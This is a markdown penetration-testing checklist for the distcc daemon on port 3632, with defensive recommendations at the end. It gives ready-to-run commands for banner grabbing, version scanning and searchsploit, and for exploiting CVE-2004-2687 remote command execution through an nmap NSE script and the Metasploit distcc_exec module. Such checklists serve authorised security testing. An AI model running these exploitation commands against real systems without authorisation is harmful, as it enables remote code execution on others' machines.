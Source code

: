 # ✅ Distcc Pentesting Checklist & Commands

---

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating distcc (port 3632), I realistically expect to find:

- [ ] Service banner confirming distccd running on port 3632
- [ ] Version information for mapping to known exploits (CVE-2004-2687)
- [ ] Ability to execute arbitrary system commands remotely
- [ ] Potential for immediate remote code execution (shell) on the target

---

## ✅ Distcc Pentest Checklist

- [ ] **Banner Grabbing**
    ```bash
    nc -vn <IP> 3632
    ```

- [ ] **Service Version Identification**
    - Look for version details in banners or Nmap output.
    ```bash
    nmap -sV -p 3632 <IP>
    ```

- [ ] **Searchsploit for Known Exploits**
    ```bash
    searchsploit distcc
    searchsploit <service info from nmap>
    ```

- [ ] **Check for CVE-2004-2687 - Remote Command Execution**

    - **Nmap NSE Script**
        ```bash
        nmap -p 3632 <IP> --script distcc-exec --script-args="distcc-exec.cmd='id'"
        ```

    - **Metasploit Module**
        ```bash
        msfconsole
        use exploit/unix/misc/distcc_exec
        set RHOSTS <IP>
        run
        ```

---

## ✅ Defensive Recommendations

- Restrict distccd to trusted IP ranges
- Disable or remove distccd service if not required
- Apply any available patches or upgrades
- Monitor for unexpected connections on port 3632
